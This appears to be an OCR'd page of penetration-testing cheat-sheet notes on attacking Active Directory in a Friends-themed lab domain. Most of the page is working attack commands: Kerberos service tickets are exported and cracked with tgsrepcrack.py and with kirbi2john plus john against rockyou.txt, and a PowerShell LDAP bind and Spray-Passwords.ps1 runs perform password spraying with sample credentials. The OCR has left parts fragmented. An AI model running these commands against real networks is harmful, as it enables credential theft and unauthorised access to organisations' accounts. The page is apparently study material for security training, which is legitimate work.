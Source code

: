 > KALI LINUX

```
cp 1-40a10000-rgeller@FRIENDS-DC~svc_backup.FRIENDS.local~1337-FRIENDS.LOCAL.kirbi /var/www/html/ad_tools
```
```
python /usr/share/kerberoast/tgsrepcrack.py pass.txt
```
```
2-40a10000-rgeller@FRIENDS-DC~svc_backup.FRIENDS.local~1337-FRIENDS.LOCAL.kirbi 
```
> kirbi2john 
```
'2-40a10000-central-perk$@FRIENDS-DC~svc_backup.FRIENDS.local~1337-FRIENDS.LOCAL.kirbi' > svc_hash
```
```
john svc_hash --wordlist=/usr/share/wordlists/rockyou.txt
```

+ SCENARIO.2
> lget
```
2-40a10000-central-perk$@FRIENDS-DC~svc_backup.FRIENDS.local~1337-FRIENDS.LOCAL.kirbi
```

> SAMPLE SPNS

> HTTP/CorpWebServer.corp.com

> FRIENDS-DC/svc_backup.FRIENDS.local:1337

> NOTES
```
sudo apt install kerberoast
```

### SLOW PASSWORD GUESSING (PASSWORD SPRAYING TECHNIQUE)net accounts
> AD login

> DirectoryEntry instance
```
$domainObj = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain() 
$PDC = ($domainObj.PdcRoleOwner).Name 
$SearchString = "LDAP://" 
$SearchString += $PDC + "/" 
$DistinguishedName = "DC=$($domainObj.Name.Replace('.', ',DC='))" 
$SearchString += $DistinguishedName 
New-Object System.DirectoryServices.DirectoryEntry($SearchString, "rgreen", "DirtyPassword234")
```
```
.\Spray-Passwords.ps1 -Pass Qwerty09! -Admin
.\Spray-Passwords.ps1 -Pass DirtyPassword23 -Admin
.\Spray-Passwords.ps1 -Pass Password9 -Admin
````
> The -Pass option allows us to set a single password to test, or we can submit a wordlist file with -
File.

